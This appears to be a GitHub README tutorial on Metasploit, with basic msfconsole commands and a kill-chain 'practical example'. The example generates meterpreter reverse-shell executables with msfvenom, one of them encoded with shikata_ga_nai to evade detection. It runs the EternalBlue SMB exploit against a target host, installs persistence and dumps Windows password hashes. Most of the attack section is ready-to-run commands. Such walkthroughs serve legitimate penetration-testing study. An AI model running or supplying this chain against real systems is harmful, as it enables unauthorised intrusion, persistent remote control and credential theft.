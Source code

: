 ## Workflow:
1. To start Metasploit shell: `msfconsole`

2. A shell will be open: `msf6` along with all available Modules.

3. Search a module to use `search type:keywork`
- to navigate to modules `back`

4. To interact with a module `info 23, use 23 or use auxiliary/scanner/portscan/tcp `

5. Once selected `auxiliary(scanner/portscan/tcp)`
In Case of `Exploit` Module, we can set a payload too.
- To check available payloads for current Exploit Module `show payload`
- Select a payload `set payload_name or Number`

6. Check Options `show options` or full info with `info`

7. Set the Parameters Lhost/Rhost/Ports etc `set Lhost x.x.x.x`

8. Run the module `run` or `exploit`

---
---

# Practical Example Workflow:
## Reconnaissance:
```
Load auxiliary module: use auxiliary/scanner/portscan/tcp
Set RHOSTS: set RHOSTS 192.168.1.100
Run the scan: run
```

## Weaponization:
```
Generate payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o shell.exe
```

## Delivery:
```
Load exploit module: use exploit/windows/smb/ms17_010_eternalblue
Set payload: set payload windows/meterpreter/reverse_tcp
Set RHOST: set RHOST 192.168.1.100
Run the exploit: run
```

## Exploitation:
```
Meterpreter session opened (assuming successful exploitation).
```

## Installation:
```
Load post-exploitation module: use post/windows/manage/persistence
Set session: set SESSION 1
Run the module: run
```

## Command and Control (C2):
```
Encode payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_shell.exe
```

## Actions on Objectives:
```
Load post-exploitation module: use post/windows/gather/hashdump
Set session: set SESSION 1
Run the module: run
```

---
---

## Cheatsheet:
![image](https://github.com/IOxCyber/CyberEssentials/assets/40174034/7835180f-7295-4337-8f81-8bb23c35f14c)

